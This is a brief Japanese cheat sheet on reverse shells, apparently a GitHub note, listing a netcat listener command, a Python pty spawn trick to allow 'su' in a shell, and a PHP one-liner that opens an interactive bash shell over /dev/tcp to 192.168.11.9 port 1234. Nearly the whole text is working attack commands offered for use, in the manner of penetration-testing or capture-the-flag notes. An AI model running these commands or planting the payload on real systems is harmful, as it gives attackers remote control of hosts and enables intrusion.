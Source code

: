 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - <user>
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.11.9/1234 0>&1'") ?>
```
